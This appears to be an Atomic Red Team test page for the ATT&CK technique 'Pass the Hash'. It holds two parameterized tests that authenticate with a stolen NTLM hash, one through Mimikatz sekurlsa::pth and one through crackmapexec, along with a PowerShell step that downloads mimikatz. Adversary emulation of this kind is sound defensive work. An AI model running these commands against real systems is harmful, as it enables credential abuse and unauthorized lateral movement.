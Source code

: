# T1550.002 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/002)
<blockquote>Adversaries may “pass the hash” using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes.(Citation: NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | string | atomic.local|
| mimikatz_path | mimikatz windows executable | Path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip" -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```




<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| crackmapexec_exe | crackmapexec windows executable | Path | C:&#92;CrackMapExecWin&#92;crackmapexec.exe|
| command | command to execute | string | whoami|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | string | atomic.local|


#### Attack Commands: Run with `command_prompt`! 


```cmd
crackmapexec #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```




#### Dependencies:  Run with `powershell`!
##### Description: CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
##### Check Prereq Commands:
```powershell
if(Test-Path #{crackmapexec_exe}) { 0 } else { -1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```




<br/>

